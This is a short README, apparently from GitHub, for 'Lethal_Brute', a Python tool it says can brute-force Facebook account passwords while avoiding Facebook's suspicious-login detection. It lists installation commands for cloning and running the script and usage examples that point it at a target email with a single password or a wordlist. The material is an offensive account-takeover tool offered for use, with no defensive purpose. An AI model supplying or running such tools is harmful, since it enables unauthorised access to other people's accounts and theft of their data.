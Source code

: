 # Lethal_Brute
Lets you bruteforce facebook without any suspicious login by facebook
# Installation
```
$ pkg install python3
$ git clone https://github.com/g1ng3rb1t3/Lethal_Brute
$ cd Lethal_Brute
$ python3 lebrute.py [option]
```
# Usage example (using one password)
```
python3 lebrute.py -t anon@gmail.com -p 00000001
```
# Usage example (using wordlist)
```
python3 lebrute.py -t anon@gmail.com -w [wordlist path]
```
# Not tested on many devices. But works on my device
